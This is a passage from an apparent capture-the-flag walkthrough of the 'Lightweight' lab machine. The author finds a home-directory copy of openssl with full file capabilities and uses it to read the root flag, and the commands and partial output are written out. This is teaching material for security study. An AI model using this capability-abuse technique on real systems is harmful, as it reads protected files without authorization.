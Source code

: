 `ldapTLS.php` seems to a be a demo script for ldap over TLS in php. `capture.pcap` has 4 streams, which show ldap connections over ipv6 using ldapuser2’s credentials, so not much there, as I already have that.

`openssl` and `tcpdump` are strange things to find in a homedir. Both already exist in their normal paths:

```

[ldapuser1@lightweight ~]$ which tcpdump 
/usr/sbin/tcpdump
[ldapuser1@lightweight ~]$ which openssl 
/usr/bin/openssl

```

So what is different about these? The binaries are the same:

```

[ldapuser1@lightweight ~]$ md5sum openssl /usr/bin/openssl tcpdump /usr/sbin/tcpdump 
fba9d597671181560afeec189d92348c  openssl
fba9d597671181560afeec189d92348c  /usr/bin/openssl
d9e3583b74ec93b4c9c792be985d1b8b  tcpdump
d9e3583b74ec93b4c9c792be985d1b8b  /usr/sbin/tcpdump

```

When I check the [capabilities](https://linux-audit.com/linux-capabilities-101/), I find an important difference. For `tcpdump`, it’s the same. But for `openssl`, there’s nusual capabilitie for this copy:

```

[ldapuser1@lightweight ~]$ getcap tcpdump /usr/sbin/tcpdump
tcpdump = cap_net_admin,cap_net_raw+ep
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
[ldapuser1@lightweight ~]$ getcap openssl /usr/bin/openssl 
openssl =ep

```

Having the capability `=ep` means the binary has *all* the capabilities. So this `openssl` binary is useful to me.

### Read as root

The simplest next step is to read the flag as root. I can do that simply by using `openssl` to base64 the flag, and then pipe that into `base64 -d`:

```

[ldapuser1@lightweight ~]$ ./openssl base64 -in /root/root.txt | base64 -d
f1d4e309...

```
